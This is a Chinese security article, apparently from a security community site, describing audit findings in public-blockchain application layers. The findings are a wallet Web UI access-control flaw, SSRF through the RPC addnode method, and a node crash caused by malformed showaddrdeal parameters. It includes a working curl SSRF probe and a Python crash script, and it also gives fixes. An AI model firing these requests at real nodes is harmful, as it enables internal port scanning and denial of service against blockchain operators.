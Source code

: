 

# 公链自身的应用层漏洞案例浅析 - 先知社区

公链自身的应用层漏洞案例浅析

- - -

## 文章前言

随着区块链技术的快速发展和广泛应用，公链上的应用程序也变得越来越多，然而与传统的应用程序一样，公链自身应用层也面临着各种安全问题和漏洞，公链应用层漏洞是指在公链上开发的应用程序中存在的安全漏洞和弱点，这些漏洞可能会导致恶意攻击者利用系统的弱点进行各种攻击，例如：盗取用户资金、篡改数据、执行恶意合约等，在本文中我们将以几个常见的公链应用层漏洞类型进行介绍并提供简单的示例和说明

## 攻防案例

### WEB UI访问控制

#### 基本介绍

公链前端Web UI(用户界面)是公链应用层中的一个重要组成部分，它提供了用户与公链应用程序进行交互的界面,公链前端Web UI通常以网页形式呈现，用户可以通过网页浏览器访问和操作公链应用

#### 主要功能

公链前端Web UI的功能包括但不限于以下几个方面：

-   用户账户管理：公链前端Web UI允许用户创建、导入和管理他们的账户，用户可以生成公私钥对、设置密码、备份和恢复账户等操作
-   资产查看和转账：公链前端Web UI显示用户的资产余额和交易历史，用户可以查看他们的数字货币余额，执行转账操作，发送和接收数字货币
-   智能合约交互：公链前端Web UI提供与智能合约进行交互的功能，用户可以通过界面调用智能合约的方法、查看合约状态和执行合约交易
-   交易历史和区块浏览：公链前端Web UI显示公链上的交易历史和区块信息，用户可以查看特定交易的详情，浏览最新的区块和区块链的状态
-   用户身份验证和安全性：公链前端Web UI提供用户身份验证和安全性措施，确保用户的账户和交易信息的安全，这可能包括密码加密、双重身份验证等安全功能

#### 审计示例

在对某公链进行安全审计时发现公链提供了web UI交互式界面，遂对web界面的安全性进行了黑盒测试，发现未进行身份认证的用户在点击相关功能模块时会优先跳转到该功能模块，之后才会判断当前用户是否已经通过身份认证，如果没有通过会跳转到登录认证页面，同时部分接口存在访问控制缺陷，攻击者可以通过burpsuite让页面优先停留在功能模块页面之后通过调用相关接口来查看敏感信息或者执行敏感操作，下面以wallet为例做说明：  
对源代码进行跟踪分析发现，在源代码中的app.controllers.js文件中有一个用于监听页面更改的逻辑设计，但是在这里页面的更新却先于判断用户是否通过认证的逻辑，存在设计缺陷，具体代码如下：  
[![](assets/1706512976-0d14ece9a6aabc5d90d0c3c1af13a482.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105225-6eb933c2-be51-1.png)  
wallet.controller.js逻辑设计

[![](assets/1706512976-b8b76745d5a17ab5ba03d2b7c41c1267.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105243-799a447a-be51-1.png)  
之后对WalletCtrl进行了跟踪分析，在WalletController类中发现对于钱包的各种操作（创建地址账户、删除地址账户、导入地址账户、获取钱包信息等）接口在调用之前未对调用者身份进行认证：  
walletControaller处理逻辑：  
[![](assets/1706512976-496ff8b8bb2214f6f605ce702373519d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105301-8481b422-be51-1.png)  
walletService处理逻辑  
[![](assets/1706512976-75515c8badd5a401e029803b5d5337ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105318-8e663396-be51-1.png)

未认证的用户点击“wallet”选项会先进入wallet界面后跳转至认证页面：  
[![](assets/1706512976-fe3403006e597b7f26e96be6c51c97a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104126-e60f44c2-be4f-1.png)

之后可以好看到钱包的地址账户信息

[![](assets/1706512976-70023e5ae8451d3d5d5016fae7a4fc8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104328-2e9adddc-be50-1.png)  
之后点击“删除账号，在新弹出的框汇总点击"确认"

[![](assets/1706512976-12fb1dfa5226ac318a5ce4f9c6059aa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104401-4235418e-be50-1.png)

之后account#10账号成功删除：  
[![](assets/1706512976-3abac757129842303e06e1717a1ce81c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104836-e63f31ae-be50-1.png)  
如果攻击者可以物理接触并获取到seed phrase则可以本地web实现转账，无视这里的认证

[![](assets/1706512976-bb904c4c114f3981fd23d01a64a1f817.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105000-18138b94-be51-1.png)

同时可以创建账号：

[![](assets/1706512976-8820ef3a99cd146061e442c42a76db2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105033-2bd32bb2-be51-1.png)  
也可以查看新建的地址账户：

[![](assets/1706512976-08f25b285ba340e93a99b2f09e6b625f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105136-51ab4630-be51-1.png)

### 添加节点处SSRF

#### 风险说明

当公链允许RPC远程调用，且无需认证或认证口令较弱可以通过爆破的方式进行破解的情况下，攻击者可以利用RPC远程“添加节点”的功能进行SSRF攻击，例如通过对特定的IP地址和端口组合结合服务器端响应的时间（端口开放则妙级响应，端口未开放则超时5s响应）探测服务器端私有IP地址的端口开放情况，用于后续攻击测试

#### 漏洞详情

在添加节点RPC接口处未对目标IP地址作限制，攻击者可通过构造特定的IP地址和端口组合并结合服务端响应时间探测服务端私有IP的端口开放情况，用于进一步攻击。  
addnode逻辑设计：

[![](assets/1706512976-c644e406b9581f9b3e2c24bb8e624208.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105531-ddb176fe-be51-1.png)  
请求测试参数

```plain
curl --user rubyrpc:BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC --data-binary '{"jsonrpc": "2.0", "id":"rpcaddnode", "method": "addnode", "configs": ["127.0.0.1:6379", "onetry"] }' -H 'content-type: text/plain;' http://192.168.11.192:5112
{"result":null,"error":null,"id":"rpcaddnode"}
```

[![](assets/1706512976-59e129e7a4cdda94f70a0d0556486020.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105552-e9e37666-be51-1.png)  
节点端开启的端口监听成功捕获到请求源：

[![](assets/1706512976-4c36e6cc4f5e17b9ec961d167a0e8e12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105603-f0e12008-be51-1.png)

#### 防御措施

校验目标节点IP地址，防止添加本地循环地址被攻击者用于恶意探测本地开放端口服务，同时远程RPC调用时进行身份认证

### RPC参数畸形请求导致DDOS

#### 基本介绍

公链RPC(远程过程调用)接口是公链提供的一种方式，允许外部应用程序通过网络与公链进行通信和交互,RPC接口提供了一组命令和方法，允许开发者查询和操作公链的状态、执行交易、访问智能合约等功能

#### 漏洞简介

之前在做一个公链审计的时候，发现一个有趣的现象，当用户调用Showaddrdeal来查看address，txid等详细交易信息时，如果传入的address为根节点或者传入的txid不存在、为空、非法都会导致根节点直接Crash，很是有意思，后期发现是因为后端未做合法性校验导致的  
showaddrdeal逻辑：

[![](assets/1706512976-ed6527034b02bc0de6af57b6726d1fce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105913-61f3749e-be52-1.png)  
测试脚本：

```plain
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests

def exp():
    URL = "http://192.168.11.192:5112"
    data = {
        "jsonrpc": "2.0",
        "method": "showaddrdeal",
        "configs":["18qNoDvvfNgCFa29rNVvvM3ZKi1MpsgSZZQUiJ",""],
        "id":"rpcshowaddrdeal"
   }
   s = requests.session()
   s.auth = ('xxxrpc','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(1):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```

运行脚本后：

[![](assets/1706512976-300af5dc8743ab72c4cc43ed36010867.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105956-7b603c82-be52-1.png)

之后远程RPC无法正常调用，被拒绝连接：

[![](assets/1706512976-8e41be7515351179a51d63a4779abf46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110013-8595f2b4-be52-1.png)

#### 修复方法

下面的修复方法是经过后期与客户商议之后一起总结的，后期发现客户的修复没有问题，再次测试未出现相关安全问题：  
showaddrdeal新增验证参数为空的验证：

[![](assets/1706512976-1f1f6f0ddcd74252b4283e78320a83cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110045-99018354-be52-1.png)

## 文末小结

本篇文章简单的介绍了一下公链应用层方面的几个安全漏洞示例，主要包括了WEB UI的安全、RPC接口的安全等，从公链源代码进行了简易的刨析，当然公链中还有很多的应用层面的漏洞值得大家去思考和挖掘，例如：RCP的其他安全问题(DOS、鉴权错误、未授权等)、Geth的安全问题、安全策略问题等等
